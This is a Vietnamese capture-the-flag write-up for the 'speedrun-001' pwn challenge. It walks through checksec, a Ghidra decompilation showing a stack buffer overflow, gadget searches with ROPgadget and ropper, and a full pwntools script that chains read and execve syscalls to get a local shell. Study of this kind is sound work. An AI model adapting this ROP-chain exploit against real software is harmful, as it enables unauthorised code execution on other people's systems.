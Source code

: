 Dùng file và checksec kiểm tra:

```
$	file speedrun-001
speedrun-001: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=e9266027a3231c31606a432ec4eb461073e1ffa9, stripped

$	checksec speedrun-001 
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

File 64bits, liên kết tĩnh và quan trọng là stripped, điều này khiến chúng ta không thể debug 1 cách bình thường trong gdb  
NX được bật -> không thể dùng ret2shellcode  
Pie tắt  
Chạy thử:

```
$	./speedrun-001
Hello brave new challenger
Any last words?
abc
This will be the last thing that you say: abc

Alas, you had no luck today.
```

Mở ghidra, lần theo defined string "Any last words?" tìm thấy 1 hàm:

```
void FUN_00400b60(void)

{
  undefined local_408 [1024];
  
  FUN_00410390("Any last words?");
  FUN_004498a0(0,local_408,2000);
  FUN_0040f710("This will be the last thing that you say: %s\n",local_408);
  return;
}
```

Dựa theo lần chạy thử biết hàm FUN_004498a0 dùng để nhận input, đoán 2000 là số ký tự có thể nhận. Nếu dự đoán này đúng, chúng ta có lỗi buffer overflow  
Xem hàm FUN_004498a0:

```
undefined8 FUN_004498a0(undefined8 param_1,undefined8 param_2,undefined8 param_3)

{
  undefined4 uVar1;
  
  if (DAT_006bc80c == 0) {
    syscall();
    return 0;
  }
  uVar1 = FUN_0044be40();
  syscall();
  FUN_0044bea0(uVar1,param_2,param_3);
  return 0;
}
```

Để ý hàm syscall, nhìn sang mã asm:

```
xor eax, eax
syscall
```

Theo linux syscall reference, rax bằng 0 tương đương lệnh read, đây là cách chương trình nhận input  
Ý tưởng khai thác: sử dụng kỹ thuật ROPchain lấy shell  
Tìm 1 chỗ lưu chuỗi "/bin/sh/0":

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004b6000 0x0000000000000000 r-x /home/kali/Documents/ctf_prac/pwn/speedrun-001                                                       
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/kali/Documents/ctf_prac/pwn/speedrun-001
0x00000000006bc000 0x00000000006bd000 0x0000000000000000 rw- [heap]
0x00000000006bd000 0x00000000006e0000 0x0000000000000000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]

x/10xg 0x00000000006b6000
0x6b6000:       0x0000000000000000      0x0000000000000000
0x6b6010:       0x0000000000000000      0x0000000000000000
0x6b6020:       0x0000000000000000      0x0000000000000000
0x6b6030:       0x0000000000000000      0x0000000000000000
0x6b6040:       0x0000000000000000      0x0000000000000000
```

Vùng nhớ từ 0x6b6000 tới 0x6bc000 đủ tốt để ghi do ta có quyền write, đồng thời PIE không được bật và không có dữ liệu được chứa trong đó  
Tìm cách để ghi: có thể sử dụng cách mà chương trình đã dùng để nhận input

```
sys_read:
rax: 0x00 : mã lệnh sys_read
rdi: 0 : file description
rsi: 0x6b6000 : char *buf
rdx: 8 : "/bin/sh" size
```

Sử dụng ROPgadget tìm các gadget ta cần:
```
$	ROPgadget --binary speedrun-001 | grep "pop rax ; ret"
0x0000000000415662 : add ch, al ; pop rax ; ret
0x0000000000415661 : cli ; add ch, al ; pop rax ; ret
0x00000000004a9321 : in al, 0x4c ; pop rax ; retf
0x0000000000415664 : pop rax ; ret
0x000000000048cccb : pop rax ; ret 0x22
0x00000000004a9323 : pop rax ; retf
0x00000000004758a3 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
$	ROPgadget --binary speedrun-001 | grep "pop rdi ; ret"
0x0000000000423788 : add byte ptr [rax - 0x77], cl ; fsubp st(0) ; pop rdi ; ret
0x000000000042378b : fsubp st(0) ; pop rdi ; ret
0x0000000000400686 : pop rdi ; ret
$	ROPgadget --binary speedrun-001 | grep "pop rsi ; ret"
0x000000000046759d : add byte ptr [rbp + rcx*4 + 0x35], cl ; pop rsi ; ret
0x000000000048ac68 : cmp byte ptr [rbx + 0x41], bl ; pop rsi ; ret
0x000000000044be39 : pop rdx ; pop rsi ; ret
0x00000000004101f3 : pop rsi ; ret
$	ROPgadget --binary speedrun-001 | grep "pop rdx ; ret"
0x00000000004a8881 : js 0x4a88fe ; pop rdx ; retf
0x000000000044be16 : pop rdx ; ret
0x000000000045fe71 : pop rdx ; retf
```

Với lệnh syscall, ta sẽ dùng công cụ ropper do ROPgadget không hỗ trợ

```
$	ropper --file speedrun-001 | grep "syscall"      
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
...
0x0000000000474e65: syscall; ret;
...
```

Vậy chúng ta lấy được 5 địa chỉ lệnh 0x415664, 0x400686, 0x4101f3, 0x44be16 và 0x474e65  
Sau khi ghi được chuỗi "/bin/sh", thực thi execve("/bin/sh"):

```
execve:
rax: 0x3b : mã lệnh execve
rdi: 0x6b6000 : char *filename
rsi: 0  
rdx: 0 
``` 

Ý tưởng đã có, giờ viết code khai thác:

```
#!/usr/bin/python3

from pwn import *

exe = ELF("./speedrun-001", checksec = False)

con = process("./speedrun-001")
#gdb.attach(con, gdbscript = 'b *0x400bad')

pop_rax = 0x0000000000415664
pop_rdi = 0x0000000000400686
pop_rsi = 0x00000000004101f3
pop_rdx = 0x000000000044be16
rw_section = 0x00000000006b6000
syscall = 0x474e65

#pop rax, 0x00
#pop rdi, 0
#pop rsi, 0x6b6000
#pop rdx, 8
#syscall
payload = b'A'*1032 + p64(pop_rax) + p64(0) + p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(rw_section) + p64(pop_rdx) + p64(8) + p64(syscall)

#pop rax, 0x3b
#pop rdi, 0x6b6000
#pop rsi, 0
#pop rdx, 0
#syscall
payload += p64(pop_rax) +p64(0x3b) + p64(pop_rdi) + p64(rw_section) + p64(pop_rsi) +p64(0) + p64(pop_rdx) + p64(0) + p64(syscall)

# Không dùng sendlineafter vì sẽ bị dính "\n" vào chuỗi "/bin/sh" 
con.sendafter(b"words?\n",payload)
con.sendlineafter(b"AAAdVA\n",b"/bin/sh\0")

con.interactive()
```

Chạy code khai thác và lấy được shell:

```
$	./demo.py      
[+] Starting local process './speedrun-001': pid 24090
[*] Switching to interactive mode
$ ls
core  demo.py  exp.py  flag.txt  pwn_wu  speedrun-001  vuln  vuln.c
```
